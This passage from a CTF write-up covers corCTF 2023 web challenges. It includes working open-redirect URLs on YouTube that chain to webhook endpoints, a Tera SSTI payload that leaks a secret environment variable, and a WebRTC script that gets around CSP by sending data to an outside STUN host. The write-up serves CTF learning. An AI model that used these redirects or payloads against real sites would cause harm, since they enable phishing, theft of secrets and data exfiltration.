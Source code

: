 Next, you need to bypass CSP. In this challenge, `<base>` is used to change the location of script loading.

References:
1. [https://siunam321.github.io/ctf/corCTF-2023/web/frogshare/](https://siunam321.github.io/ctf/corCTF-2023/web/frogshare/)

Renwa's solution involves rebuilding the app inside an iframe and inserting a script using Next.js features: [https://gist.github.com/RenwaX23/75f945e25123442ea341d855c22be9dd](https://gist.github.com/RenwaX23/75f945e25123442ea341d855c22be9dd)

### youdirect (5 solves)

This challenge is about finding an open redirect on YouTube.

@EhhThing provided a solution (clicking will log you out) that involves two layers of open redirect:

[https://youtube.com/logout?continue=http%3A%2F%2Fgoogleads%2Eg%2Edoubleclick%2Enet%2Fpcs%2Fclick%3Fadurl%3Dhttps%3A%2F%2Fwebhook%2Esite%2Fccb8a675%2D14cb%2D419c%2D9e85%2D3b709a99e394](https://youtube.com/logout?continue=http%3A%2F%2Fgoogleads%2Eg%2Edoubleclick%2Enet%2Fpcs%2Fclick%3Fadurl%3Dhttps%3A%2F%2Fwebhook%2Esite%2Fccb8a675%2D14cb%2D419c%2D9e85%2D3b709a99e394)

@pew provided:
https://www.youtube.com/attribution_link?u=https://m.youtube.com@pew.com/pew

@Josh provided:
https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbC01MWUzXzV4RVhlVExyRmtlOFZ4Z05pekhaQXxBQ3Jtc0ttQVFnRno1TnpIRWQyb1lnMmhJYW12ZWFTMmIwQVdrcG01Y1A5eGV4REtUV0taTzZKTUdmcWFxN3lFczRNanZuZGNtNmtzOG1pdExoTzYtSE40dHRBa2otZ05kMjgwOHFEZFo3czRwU2dRQTFQekpQcw&q=https%3A%2F%2Fsheiwknajaka.free.beeceptor.com%2F&v=-5Rm9ymMTRA&html_redirect=1

This one is special. In fact, each link in the YouTube video description generates a redirect link, but they are bound to session IDs on the webpage. Therefore, if you switch devices, you cannot use them. However, this link was generated on the mobile app, which may be because the mobile app does not have cookies and is not restricted. Interesting.

### crabspace (4 solves)

The first step is to use tera's SSTI to leak environment variables: `{{ get_env(name="SECRET") }}`

Then, you can bypass CSP using WebRTC:

``` html
<script>
async function a(){
    c={iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]}
    (p=new RTCPeerConnection(c)).createDataChannel("d")
    await p.setLocalDescription()
}
a();
</script>
```

With these two steps, you can forge an admin session and obtain the flag.

References:
1. [corCTF 2023 web/crabspace Writeup](https://www.cjxol.com/posts/corctf-2023-crabspace-web-writeup/)
